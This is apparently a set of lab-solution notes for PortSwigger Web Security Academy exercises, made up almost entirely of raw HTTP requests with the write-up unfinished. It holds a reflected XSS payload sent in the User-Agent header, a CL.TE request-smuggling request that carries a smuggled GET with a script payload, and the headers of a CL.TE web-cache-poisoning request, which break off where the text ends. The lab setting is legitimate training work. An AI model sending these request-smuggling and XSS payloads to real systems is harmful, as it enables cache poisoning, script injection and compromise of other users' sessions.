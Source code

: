 









# solutions without the writeup - to be completed above

**xss-test**
```
GET /post?postId=4 HTTP/1.1
Host: ac921f5f1ecc9e31c0fc4e600043000a.web-security-academy.net
Cookie: session=n10QJWvUWpZaTBuS6R2BlN4uE99NwP8t
User-Agent: "><script>alert("test: xss is working")</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://ac921f5f1ecc9e31c0fc4e600043000a.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close
```


**CL.TE XSS**
```
POST / HTTP/1.1
Host: ac921f5f1ecc9e31c0fc4e600043000a.web-security-academy.net
Cookie: session=n10QJWvUWpZaTBuS6R2BlN4uE99NwP8t
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 144
Transfer-Encoding: chunked

0


GET /post?postId=6 HTTP/1.1
Host: ac921f5f1ecc9e31c0fc4e600043000a.web-security-academy.net
User-Agent: ">http://burpsuite/repeat/37/sa4enoczhvngtl66ydx6pep3dtmpp8gx<script>alert(1)</script>
x:
```

# 6. Lab: Exploiting HTTP request smuggling to perform web cache poisoning
https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning

**CL.TE Cache Poisoning**

POST / HTTP/1.1
Host: ac281fc71f89bf7ac0980d6a00500011.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 197
Transfer-Encoding: chunked
